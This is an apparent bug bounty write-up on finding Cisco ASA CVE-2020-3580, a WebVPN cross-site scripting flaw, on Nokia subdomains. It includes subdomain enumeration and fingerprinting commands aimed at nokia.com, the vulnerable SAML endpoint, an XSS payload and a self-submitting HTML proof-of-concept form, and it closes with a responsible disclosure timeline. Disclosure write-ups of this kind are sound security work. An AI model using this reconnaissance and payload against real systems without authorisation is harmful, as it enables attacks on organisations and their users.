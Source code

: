```yaml
---
title:  "Exploiting Cisco ASA CVE-2020-3580: How I Discovered the Vulnerability on Nokia Subdomains"
layout: post
---
```


Cisco Adaptive Security Appliance (ASA) is a tool used for corporate VPN access, firewall protection, and threat management. However, it is not without its vulnerabilities. One such vulnerability, **<span style="color: #FF4500;">CVE-2020-3580</span>**, was discovered in 2020 and affects the WebVPN portal, allowing attackers to execute cross-site scripting (XSS) attacks that could compromise connected systems.

In this post, I’ll explain how I uncovered this vulnerability on various Nokia subdomains using reconnaissance techniques.

<h1 style="color: #2980B9;">🕵️‍♂️ Reconnaissance:</h1>

The first step in bug bounty hunting or vulnerability research is always reconnaissance. My goal was to map out the Nokia attack surface to find potentially vulnerable assets, and for that, I leveraged several tools and methods.

### <span style="color: #27AE60;">Passive Reconnaissance</span>

I started with passive recon to gather subdomains and IPs associated with Nokia. For this, I used the following tools and techniques:

#### <span style="color: #F39C12;">Subdomain Enumeration</span>

I used tools like **<span style="color: #4682B4;">Sublist3r</span>**, **<span style="color: #4682B4;">Amass</span>**, and **<span style="color: #4682B4;">Subfinder</span>** to gather a large list of Nokia subdomains:

````
subfinder -d nokia.com -o nokia-subdomains.txt amass enum -d nokia.com -o nokia-amass.txt
````

This provided a list of subdomains that are publicly known and might host various services, including VPN portals. After gathering subdomains, I looked for endpoints that were hosting web interfaces. Using tools like httpx, I quickly fingerprinted these subdomains to check for VPN interfaces, login pages, or any Cisco ASA systems.

````
cat nokia-subdomains.txt nokia-amass.txt | sort -u | tee subdomains.txt cat subdomains.txt | httpx -status-code -title -tech-detect -o output.txt
````

Many subdomains returned HTTP 200 with Cisco VPN or WebVPN portals exposed.

## <span style="color: #8E44AD;">Testing for CVE-2020-3580</span>

To test for the vulnerability, we need to send a POST request to /+CSCOE+/saml/sp/acs?tgname=a with the SAMLResponse parameter set to a payload that triggers the XSS vulnerability. The payload is: "><svg/onload=alert('xss')>



### <span style="color: #D35400;">Steps to Reproduce:</span>

```
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

⚠️ <span style="color: #C0392B;">CVE-2020-3580 on Nokia Subdomains:</span>
I wrote a Bash script to check each of the subdomains for this vulnerability. Many of the subdomains were found to be vulnerable, and I reported them to Nokia through their responsible disclosure policy.

📅 <span style="color: #16A085;">Disclosure Timelines:</span>
- 17 Aug 2022 — Vulnerability discovered and reported.
- 18 Aug 2022 — Team confirmed receipt of the report.
- 20 Aug 2022 — I earned a spot on their Hall of Fame page.

